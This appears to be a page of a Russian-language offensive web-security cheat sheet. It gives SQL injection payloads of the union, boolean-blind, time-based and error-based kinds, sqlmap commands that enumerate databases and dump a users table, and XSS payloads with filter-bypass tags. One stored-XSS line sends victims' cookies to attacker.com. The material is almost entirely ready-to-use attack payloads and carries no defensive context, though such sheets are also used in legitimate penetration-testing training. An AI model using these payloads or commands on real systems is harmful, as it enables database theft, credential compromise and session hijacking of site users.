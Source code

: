 ```
────────────────────────────────────────────────────────────────────
                          SQL INJECTION TYPES
────────────────────────────────────────────────────────────────────

🔹 UNION-BASED
   Original: SELECT * FROM users WHERE id = '1'
   Payload:  1' UNION SELECT username,password FROM admin--
   
🔹 BOOLEAN-BASED BLIND  
   Original: SELECT * FROM users WHERE id = '1'
   Payload:  1' AND (SELECT COUNT(*) FROM users) > 0--
   
🔹 TIME-BASED BLIND
   Original: SELECT * FROM users WHERE id = '1' 
   Payload:  1'; WAITFOR DELAY '00:00:10'--

🔹 ERROR-BASED
   Original: SELECT * FROM users WHERE id = '1'
   Payload:  1' AND (SELECT * FROM (SELECT COUNT(*),
             CONCAT(version(),FLOOR(RAND(0)*2))x FROM 
             information_schema.tables GROUP BY x)a)--

────────────────────────────────────────────────────────────────────
```

### Автоматизация с SQLmap

```bash
# Базовое тестирование
sqlmap -u "http://target.com/page.php?id=1"

# Извлечение баз данных
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Извлечение таблиц
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Извлечение данных
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump

# POST-запросы
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"

# Работа с cookies
sqlmap -u "http://target.com/page.php" --cookie="PHPSESSID=abc123"
```

### Cross-Site Scripting (XSS)

```html
<!-- REFLECTED XSS -->
Original URL: http://site.com/search.php?q=test
Payload URL:  http://site.com/search.php?q=<script>alert('XSS')</script>

<!-- STORED XSS -->
Comment field: <script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

<!-- DOM-based XSS -->
URL fragment: http://site.com/page.html#<script>alert('XSS')</script>

<!-- BYPASS FILTERS -->
<svg onload=alert('XSS')>
<img src=x onerror=alert('XSS')>
```